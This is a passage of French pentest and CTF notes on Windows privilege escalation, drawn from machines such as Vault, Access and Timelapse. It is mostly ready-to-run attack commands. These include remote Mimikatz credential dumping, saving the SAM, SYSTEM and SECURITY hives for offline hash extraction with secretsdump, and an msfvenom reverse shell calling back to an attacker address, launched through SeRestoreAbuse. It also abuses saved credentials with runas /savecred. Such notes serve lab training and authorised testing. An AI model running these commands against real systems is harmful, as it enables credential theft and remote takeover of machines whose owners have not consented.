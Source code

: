 #### Avec Invoke-Mimikatz à distance

```powershell
# Exécution à distance via PowerShell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' -ComputerName target.inlanefreight.local
```
## Points Clés

- Documenter tous les chemins d'élévation de privilèges découverts
- Tenter les méthodes les moins intrusives en premier
- Vérifier les événements de sécurité pour éviter la détection
- Pour les tests d'intrusion réels, coordonner avec l'équipe de sécurité avant d'exploiter des ACLs critiques

## Techniques d'élévation de privilèges Windows tirées de CTFs réels
#### Abus des privilèges SeBackup et SeRestore (Vault)

Ces privilèges peuvent être exploités pour accéder à des fichiers protégés:
#### SeBackupPrivilege
Permet de contourner les contrôles d'accès pour lire n'importe quel fichier:
```powershell 
# Vérifier les privilèges
whoami /priv

# Sauvegarder les hives de registre (contenant les hachages de mots de passe)
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

```
#### SeRestorePrivilege 
Permet de remplacer des fichiers critiques du système:
```powershell
# Création d'un reverse shell avec msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.x LPORT=80 -f exe -o reverse.exe

# Utilisation d'un exploit SeRestore pour exécuter le reverse shell
SeRestoreAbuse.exe "C:\chemin\absolu\vers\reverse.exe"
```
#### Exploitation des identifiants mis en cache (Access)
Vérifier les identifiants stockés avec `cmdkey`:

```powershell
cmdkey /list
```
Si des identifiants administrateur sont stockés, ils peuvent être exploités avec `runas`:
```powershell
C:\Windows\System32\runas.exe /user:DOMAINE\Utilisateur /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\utilisateur\root.txt"
```
#### Historique PowerShell (Timelapse)
PowerShell conserve un historique des commandes qui peut contenir des mots de passe:
